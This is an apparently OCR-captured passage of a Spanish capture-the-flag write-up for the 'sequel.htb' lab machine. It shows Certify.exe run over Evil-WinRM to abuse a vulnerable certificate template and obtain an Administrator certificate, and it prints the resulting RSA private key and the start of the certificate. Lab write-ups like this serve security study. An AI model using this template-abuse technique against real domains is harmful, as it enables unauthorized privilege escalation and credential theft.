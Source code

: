
Tras obtener esta información debemos lanzar de nuevo la herramienta certify.exe para obtener el certificado del usuario Administrador y obtenemos su clave privada, esto lo haremos con los datos que obtuvimos antes con la plantilla vulnerable.

```ruby
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> ./certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 24

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA0iIsK5UMjkMqzMh6IpbcJR18qpfJ+JK/n2qOagV4DvgcRKJ/
WSwGCuOazuapnXq+fZM6oBpU9d2B9y8maBI9KrWHny/1BKf51YN/piDn0r57Yw6M
dRj0rdFD6VDYwMtU4xFZ+X6qpMT/omxNYOwAuqfzWX3HWOBPaLZaN2PJNT+2XNdG
IDdQPfTxNENH+AKQeP0hfLLw0QWzr3Z6NqbbuMDacP6hZ/Tfl5woiVmKv28/ySnA
vC/UVo19xS/iupjwIJZj8z86CKj6AndFBPOolveSsze4NZAEtK1HKrMrvNwjZXRZ
kFFMLrJ7E5af/3wVQ1246OjaQ9kpohh6VqMaCQIDAQABAoIBAQCT0/iQ/H1lw7jj
chICLXFYJwNiHAC5f7uREex4h7prhX6Vhl/iwsbJeE+bSMiAgi5qt13h7kRg52Ec
HS5+vn4LgsOTaLCNgwKOg8EUhUexidHR4RVM966CbZrCE9842pKwX6+VhtfTrMdO
Y7SX/8+PgMIA7iyEyOD0gHy9RNTzQMTbsqcy4dOmg/TvDwtZXe2r/3K4LbEjmo+6
HmH1gtbxPX7m+1ukuDTWPWuDRLZQZLeXxgBVVHc9vByn91kGguR3gGXkg7YOKiKr
up2Owi1l5xGySeQnFUpfMAyMGgW3K8uXDr3c9Ej8nml+OxI/szv0oQJ3ezzz3jQw
4rOOpqGlAoGBAPrMDvBJTiPhYKM0wkAAxRQHiyQ2Dj3Dp7BuA1d6mUmKinVR5f5E
bYsbBCdVlV2BRUN8NCWZ8UkeE0kq5ongxz0pbwt6j0O4WOKpB8jldXAHq57nnjVf
Oh6UEalHvf/px/jHvA4rXpNkw1FaU9RsbRFkxPG6XYgb7bRITtOvHS4LAoGBANZ+
KA/NY1k2kwfY3psZr8YdXMkoA2QG2xOMcRjzm3mPYpY/aoinGNNmENAQXhtNTjz5
Ut2scVMAACAGRySL82LwpCz5Kg82RqLaKf+tZp8rmSKI3a1dQ/NZ0xJLdum1lh0s
mJndU5HSU9R4zzX3zo673DrVP/cG6iGKR1X9mmi7AoGAN6wclNJw+h4JqbEIfdSt
6uhRxtQJDUTlcJC7RSv94wlR+wEXIP5nor14ipLA+WS8z2I+4SnvGeAHP/K6AllX
YQhVkiK+srW1ZXtIMxxcmWXafwfDYu2kpS0RTpaSYsCul1cfM7YE5Is1oFWAzmLT
Q00vOsm4AYLRnXd/qBXzUEkCgYEAvVCUI35wlalplJ+Buvus/PuljZZXh83VRyfK
Gu/I5j38EgjfCsYRT2TiqgIITaipyX91+FnfnBaABcQEvukXZNhoz5kL2mlZZxuP
vi9aSFq+ypBquD19YCiD973LsvOnDxDxj7ydqjMt8na+zS9vjOOaugLGdk4QEJJv
7CHuS0kCgYBptYpDw8/yQ0z0nG3PjnmwfvH8JGqzKB+O+xAPPdDpK6+0v8/tPn7I
E/rVDbxtY4ENNk4vRx/GEk5FNLYb+NR590e+I5iPWc8tlJd7/u4S7yBhLp/BX1mH
RArrtaotO3CoAG1RnmTp/LMqqN37TEeEj9qjq8hMrir/s4e1S1FreA==
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIF6DCCBNCgAwIBAgITHgAAABg9/MYiepkuJwAAAAAAGDANBgkqhkiG9w0BAQsF
ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGc2VxdWVs
MRUwEwYDVQQDEwxzZXF1ZWwtREMtQ0EwHhcNMjMwMzAzMDMzOTEzWhcNMjUwMzAz
```